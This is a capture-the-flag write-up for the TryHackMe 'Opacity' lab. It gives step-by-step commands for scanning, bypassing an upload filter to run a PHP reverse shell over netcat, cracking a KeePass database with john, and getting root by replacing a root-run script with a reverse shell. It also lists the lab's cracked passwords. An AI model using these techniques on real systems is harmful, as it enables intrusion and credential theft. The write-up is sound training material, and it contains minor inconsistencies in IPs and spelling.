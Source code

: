 <h2>Target: 10.10.194.154  Opacity </h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.194.154 -p- --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap returns open ports: 22,80,139,445

Step 2: Enumerate the open ports further using nmap: nmap -Pn 10.10.194.154 --min-rate=5000 -p 22,80,139,445 -sC -sV -oN nmap-opacity

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/7970c984-8ba4-4663-ba12-c026c55b1394)
 
Step 3: Run directory brute force on port 80: dirsearch -r -u http://10.6.64.178 -e php -f -o dsearch-opacity

Dirsearch found a directory of /cloud.  

Step 4: Navigating to http://10.6.64.178/cloud shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/af9f6f23-b60d-4813-a3d5-ec4dfe5c01ee) 

The page has an upload image function.  Since the upload function takes a url for uploading, create a file on our local pc called “php-rev-shell.php” and host the file using a python web server: python3 -m http.server 80

The upload image function has a filter in place that checks that the filename ends in .jpg, .jpeg, or .png.  To bypass the filter, enter a url of http://php-rev-shell.php#.jpg

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/bee052e7-1f85-4374-989c-f8e3ac634d69)
  
Step 5: Open a netcat listener to catch the reverse shell: nc -lvnp 443

Step 6: Enter the url http://ourip/php-rev-shell.php#jpg and click on ‘upload image’. 

The image uploads and runs the reverse shell.  We get a shell on our netcat listener as user www-data.

____________________________________________
<b>Lateral Movement:</b><br>
Step 1: Navigating to the directory /opt shows a keepass file called dataset.kdbx.  Download the file /opt/dataset.kdbx

Step 2: Crack the hash on dataset.kdbx.  First use john to convert the file to a hash john can use: keepass2john dataset.kdbx > john.txt

Next, run john to crack the hash: john hash –wordlist=/usr/share/wordlists/rockyou.txt

John cracked the hash to “741852963”

Step 3: Open the keepass file using the command: keepassxc dataset.kdbx

This opens a kepassxc gui:
![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/ed1cf7e6-2459-40d5-8134-398a2a591219)

Enter the password we got from john: 741852963

After entering the password the keepassxc page shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/3ef1fc3f-9ca5-4218-965e-2c1271eefefa)
 
The kepassxc gui shows credentials: username ‘sysadmin’ and password ‘Cl0udP4ss40p4city#8700’

Step 4: Check the usernames on the target shell in the file /etc/passwd: cat /etc/passwd |grep sh

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/dc9286a9-7a9b-43e4-bad2-9bc2c69f4b2d)
 
This shows the target shell has a username of ‘sysadmin’.  The same username we found in the keepass file.  

Step 5: On the target shell, change to user sysadmin: su sysadmin → enter the password when prompted

We have shell as user sysadmin.  We can get the flag in /home/sysadmin/local.txt
_____________________________________________
<b>Privilege EscalationL</b><br>
Step 1: Check for background processes that are running.  In order to do this we will use pspy.  Upload pspy to the target shell and run pspy.  Pspy shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/6194d0ab-fa79-4aeb-85b5-9036507a8272)
  
Pspy shows a process running a file called /home/sysadmin/scripts/script.php as the root user.  

Step 2: File permissions on script.php prevent editing or deleting it:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/daafa43f-3a1b-4d11-9e57-8b46b965365a)

Check the file permissions in the directory above script.php → /home/syadmin/scripts:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/75636c22-9b9e-4374-8415-9583e861720d)
 
Again, file permissions prevent editing or deleting the directory ‘scripts’.  However, because the directory ‘scripts’ is in the directory ‘/home/sysadmin’ which is under sysadmin user permissions, we can change the name of the directory ‘scripts’: mv scripts oldscripts

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/37468d1a-54ff-4be5-9c44-2371f6bfab23) 
 
Step 3: Create a new directory called ‘scripts’: mkdir scripts

Step 4: Upload a php reverse shell called ‘script.php’ to the target shell in the directory /home/sysadmin/scripts

Step 5: Open a netcat listener to catch the reverse shell: rlwrap nc -lnvp 443

Wait a few moments for the task to run.  Once the task runs we get a shell as root on our netcat listener.  We can get the flag in /root/proof.txt
